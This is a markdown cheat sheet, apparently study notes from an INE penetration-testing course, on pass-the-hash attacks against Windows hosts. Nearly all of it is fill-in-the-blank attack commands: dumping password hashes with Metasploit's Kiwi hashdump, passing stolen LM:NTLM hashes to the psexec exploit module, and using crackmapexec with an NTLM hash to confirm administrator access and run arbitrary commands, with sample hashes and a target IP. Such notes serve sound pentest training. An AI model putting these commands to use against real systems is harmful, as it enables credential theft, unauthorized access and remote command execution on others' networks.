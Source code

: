 # Pass-The-Hash

* [Metasploit](#metasploit)
* [Crackmapexec](#crackmapexec)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## Metasploit

### Kiwi

```
hashdump
```

#### Format:  
[USERNAME]:[RID]:[LM-HASH]:[NTLM-HASH]:::  

#### Example:  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::


*LM Hash is the same for every user, the NTLM hash is unique.*

### PSExec

```
search psexec
```
```
use use exploit/windows/smb/psexec
```
```
set SMBUser [USERNAME]
```
```
set SMBPass [LM-HASH]:[NTLM-HASH]
```
Example:
```
set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d
```
```
set target Native\ upload
```
*Target may not need to be set, or may need to be set to something else. Might have to try a few differnet targets to get this to work*
Set RHOSTS, LPORT, & possibly other options and exploit*

***********************************************************************

## Crackmapexec

Check for Pwnage:
```
crackmapexec smb [TARGET-IP] -u [USERNAME] -H "[NTLM-HASH]"
```
Example:
```
crackmapexec smb 10.3.31.187 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d"
```

Once Pwn3d, issue commands like this:
```
crackmapexec smb [TARGET-IP] -u [USERNAME] -H "[NTLM-HASH]" -x "[COMMAND]"
```
*Ignore python script errors*

***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
